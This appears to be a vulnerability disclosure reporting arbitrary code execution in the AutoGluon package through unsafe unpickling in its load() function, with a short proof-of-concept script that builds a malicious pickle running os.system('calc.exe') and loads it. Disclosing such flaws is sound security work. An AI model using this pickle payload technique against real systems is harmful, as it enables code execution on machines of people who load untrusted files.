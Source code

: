 ## :writing_hand: Description

`AutoGluon` automates machine learning tasks enabling you to easily achieve strong predictive performance in your applications. With just a few lines of code, you can train and deploy high-accuracy machine learning and deep learning models on text, image, and tabular data. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`load()` function is used to load predictor files by unpickling them. It should only unpickle trusted files generated with `save()` function.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install --upgrade "mxnet<2.0.0"
pip install autogluon
```

#### Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
import autogluon

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload', 'wb') as f:
    f.write(payload)

autogluon.load('payload')
```

